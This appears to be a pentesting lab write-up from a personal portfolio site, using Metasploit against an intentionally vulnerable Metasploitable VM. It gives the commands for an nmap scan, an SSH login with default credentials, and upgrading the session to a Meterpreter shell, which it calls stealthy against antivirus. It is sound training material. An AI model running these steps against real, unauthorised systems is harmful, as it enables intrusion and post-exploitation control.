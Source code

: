 ```yaml
---
title: Upgrading to Meterpreter Shell Using Metasploit
permalink: /metasploit1
parent: Pentesting
---
```

# Upgrading to Meterpreter Shell Using Metasploit
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this lab, I will establish a remote connection to a vulnerable machine using Metasploit. After gaining access to the machine, I will upgrade the limited shell to a meterpreter shell. Meterpreter operates entirely in memory, making it more stealthy and less likely to be detected by antivirus software.  It also provides a rich command set that allows for advanced post-exploitation activities. This includes commands for interacting with the file system, networking, system, and more.

## Goals & Objectives
1. Use VMWare Workstation Player to run separate instances of Kali Linux and Metasploitable, an intentionally vulnerable virtual machine.
2. Perform an nmap scan on the target machine, detecting open ports and a list of services and their versions.
3. Log in to the target machine using SSH.
4. Upgrade the limited shell to a meterpreter shell.

## Results
### 📄 Task 1: Run Kali Linux and Metasploitable

I download pre-built images for Kali Linux and Metasploitable and run them in VMWare Workstation Player.

![](/assets/images/101_71_metasploit1/step1.png)

<br>
<br>
### 📄 Task 2: Run Metasploit in Kali Linux

![](/assets/images/101_71_metasploit1/step2.png)

<br>
<br>
### 📄 Task 3: Find the IP address of the target machine 

I use ```ifconfig``` to find the IP address of the target machine: 192.168.28.128

![](/assets/images/101_71_metasploit1/step3.png)

<br>
<br>
### 📄 Task 4: Scan the target machine using db_nmap

In Metasploit, I scan the target machine using ```db_nmap -sV 192.168.28.128```. This command stores the results of an nmap scan in Metasploit’s database. This database allows me to keep track of and manage the scan results.

![](/assets/images/101_71_metasploit1/step4.png)

I notice that SSH (secure shell) is running on port 22. SSH is an encrypted network protocol used to remotely interact with an Operating System.

<br>
<br>
### 📄 Task 5: Log in to the target machine using SSH

To log in to the target machine using SSH, I run the following commands:

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.28.128
set rport 22
set username msfadmin
set password msfadmin
run
```

Note: msfadmin is the default username and password of the Metasploitable VM.

```use auxiliary/scanner/ssh/ssh_login``` allows me to use the ssh_login module to remotely log in to the target machine  
```set rhosts``` sets the IP address of the target machine  
```set rport``` specifies the port number  
```set username``` and ```set password``` specifies the login credentials to access the target machine

![](/assets/images/101_71_metasploit1/step5.png)

The ```sessions``` command shows active SSH sessions. Currently, the active session is a limited shell.

<br>
<br>
### 📄 Task 6: Upgrade the limited shell to a meterpreter shell

To upgrade the limited shell to a meterpreter shell, I run the following commands:

```bash
use post/multi/manage/shell_to_meterpreter 
set session 1 
run
```

```use post/multi/manage/shell_to_meterpreter``` allows me to upgrade a shell session to meterpreter shell  
```set session 1``` upgrades the SSH sessions to a meterpreter shell

![](/assets/images/101_71_metasploit1/step6.png)

Running the ```sessions``` command reveals a second session, which is the meterpreter shell.

<br>
<br>
### 📄 Task 7: Switch to the meterpreter shell

To switch to the meterpreter shell, I use the following command: ```session -i 2```.

![](/assets/images/101_71_metasploit1/step7.png)

---

<a href="#top" id="back-to-top">Back to top</a>